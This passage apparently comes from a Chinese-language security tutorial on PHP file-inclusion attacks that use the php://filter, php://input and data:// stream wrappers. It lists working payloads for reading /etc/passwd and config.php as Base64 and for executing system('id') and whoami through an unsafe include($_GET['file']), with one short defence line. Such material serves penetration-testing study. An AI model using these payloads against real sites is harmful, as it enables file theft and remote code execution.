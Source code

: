 **用途**：读取文件内容并进行 Base64 等编码。
**示例**：

```url
php://filter/convert.base64-encode/resource=/etc/passwd
```

**攻击场景**：

- **读取 PHP 源文件**（绕过 `include` 执行）：

  ```php
  include($_GET['file']);   // ?file=php://filter/convert.base64-encode/resource=config.php
  ```

- **绕过 `<?php exit; ?>` 拦截**（利用 Base64 处理）：

  ```php
  php://filter/convert.base64-decode/resource=data:text/plain,PD9waHAgcGhwaW5mbygpOyA/Pg==
  ```

##### **(2) `php://input` —— 直接执行代码**

**用途**：读取 POST 输入流，可执行任意 PHP 代码。
**示例**：

```http
POST /vuln.php?file=php://input HTTP/1.1
...
<?php system("id"); ?>
```

**适用场景**：

- **RFI（远程文件包含）+ 伪协议 RCE**：

  ```php
  include($_GET['file']);   // ?file=php://input
  ```

**防御**：

- 关闭 `allow_url_include`（默认关闭）
- 验证输入协议

---

### **3. `data://` —— 数据流封装（Base64 执行 PHP）**

**用途**：直接嵌入 Base64/PHP 代码。
**示例**：

```url
data://text/plain,<?php system("id"); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCJpZCIpOyA/Pg==
```

**攻击场景**：

- **RFI + `data://` 直接执行代码**：

  ```php
  include($_GET['file']);  // ?file=data://text/plain,<?php system("whoami"); ?>
  ```
